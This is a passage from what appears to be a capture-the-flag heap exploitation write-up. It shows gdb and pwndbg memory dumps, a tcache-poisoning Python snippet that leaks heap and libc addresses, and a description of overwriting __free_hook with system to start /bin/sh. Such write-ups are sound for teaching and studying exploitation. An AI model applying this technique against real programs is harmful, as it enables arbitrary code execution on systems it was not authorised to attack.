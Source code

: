 
The heap address(`0x604700`) can be put in the` tcachebin` of `0x3c0`, so the heap address can be leaked.
```
gdb-peda$ x/100gx 0x603200
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000000000
0x603220:	0x0000000000604700	0x0000000000000000  <- This 0x604700 can be leaked.
0x603230:	0x0000000000000000	0x0000000000000000
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000411
0x603260:	0x7920796150202e34	0x6c6c69622072756f
0x603270:	0x61656c20646e6120	0x6e612074690a6576

pwndbg> bins
tcachebins
0x3c0 [  1]: 0x604700 ◂— 0x0
```

If we know the heap address, we can create a fake `chunk` in the above area, so we can leak the `libc` address as shown below.

```
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x4141414141414141	0x0000000000001461
0x603220:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  <- This 0x7ffff7dcdca0 can be leaked.
0x603230:	0x0000000000000000	0x0000000000000000
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000411
0x603260:	0x7461657243202e0a	0x2077656e20612065
0x603270:	0x2e320a726564726f	0x6e61207469644520
```
The `python` code for the `libc` leak
```python
# Make large chunk in tcache
Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x210))
Create()
Create()
Edit(9, "A"*8+p64(heap_offset - 0x300 + 0x61))

Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x220))
Create()
Create()

# libc leak
Delete(11)
```

If we can leak the `libc` address, we can easily write the `__free_hook` to the `tcache` using the `Edit` function. Similarly, we can write the address of the `system` function to `__free_hook`, so we can start `/bin/sh` by freeing the `chunk` that wrote `/bin/sh`.
